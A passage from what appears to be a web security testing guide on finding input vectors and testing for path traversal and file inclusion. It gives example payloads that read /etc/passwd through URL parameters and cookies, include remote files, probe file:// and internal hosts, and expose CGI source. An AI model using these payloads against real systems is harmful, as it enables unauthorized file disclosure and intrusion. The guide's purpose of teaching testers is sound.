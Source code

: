 #### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to input validation bypassing, the tester needs to enumerate all parts of the application that accept content from the user. This also includes HTTP GET and POST queries and common options like file uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

For the cookies example:

`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

It's also possible to include files and scripts located on external website.

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way.

`http://example.com/index.php?file=file:///etc/passwd`

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services.

`http://example.com/index.php?file=http://localhost:8080 or http://example.com/index.php?file=http://192.168.0.2:9080`

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.

`http://example.com/main.cgi?home=main.cgi`
